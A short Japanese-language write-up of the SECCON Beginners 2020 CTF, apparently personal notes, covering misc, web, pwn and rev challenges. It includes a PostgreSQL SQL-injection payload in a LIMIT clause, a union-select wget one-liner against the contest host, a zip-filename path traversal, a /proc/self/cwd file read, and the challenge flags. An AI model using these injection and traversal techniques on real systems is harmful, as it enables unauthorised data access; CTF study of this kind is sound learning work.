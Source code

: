 
# SECCON Begineers 2020

    -  Date 2020/05/23(sat) 14:00 JST ~ 5/24 14:00
    -  Style: Jeopardy

## Misc

### emoemoencode

    U+1F300-U+1F3FFまでが絵文字であるためUnicordの下8bitにASCII文字列を対応させている。
    U+1F363 → c (63) ascii
    絵文字から戻すときはUnicode表示(pythonのordもOK)にしてから0x1F300を引く

### readme

    Linux環境では、実行中のプロセスに関する情報は /proc/[PID] 以下に展開される
    動作環境はAlpine Linuxであり、
    /proc/self/environ を読むことで pwdコマンドを叩いたのと同じ状態になる(シンボリックリンク)
    Answer: `/proc/self/cwd/../flag`
    参考サイト: man page of proc

## web

### spy

    ログイン時の実行時間の差で利用ユーザを判断することができる。

### tweetstore

    配布コードを読んでいくとsql文を
    select url, text, tweeted_at from tweets where text like '%{search}%' order by tweet_at desc limit
    条件: searchは'が使えない。
    このlimitの後がインジェクション対策を怠っており攻撃が可能になっている。がsplitされるためクエリを投げられない。

    つまり...
    limit句以降にあるSQLiでascii(substr((select user), 1, 1));-- のような形で表示件数を絞り，その件数から1文字ずつフラグを特定できる

    Answer(想定解)
        URLexample: http://tweetstore.quals.beginners.seccon.jp/?search=&limit=1+offset+ascii%28substr%28%28current_user%29%2C200%2C1%29%29
        Answer: ctf4b{is_postgres_your_friend?}
    Answer(想定外の解答)
        echo -e "%\\' union select usename as url, usename as text, NOW() as tweeted_at from pg_user--" | nkf -WwMQ |sed -e "s/=\$//" | tr -d "\n" | tr = % | xargs -I{} wget -v -O - https://tweetstore.quals.beginners.seccon.jp/?search={}\&limit=10

### unzip

    1. '../../../../flag.txt'のような名前のファイルを作成し、アップロードする。
    (バイナリ編集)
    2. (php スクリプト)?filename=../../../../flag.txt にアクセスする
    
    Answer: ctf4b{y0u_c4nn07_7ru57_4ny_1npu75_1nclud1n6_z1p_f1l3n4m35}

## pwn

    まだ練習不足であり、本CTFでは取り組まなかった。
    pythonのpwntoolを使用している人が多い印象。

## rev

    上に同じく、チームメンバーに任せたが次回は取り組みたい。
    angrを使用すると簡単に解けるらしい。

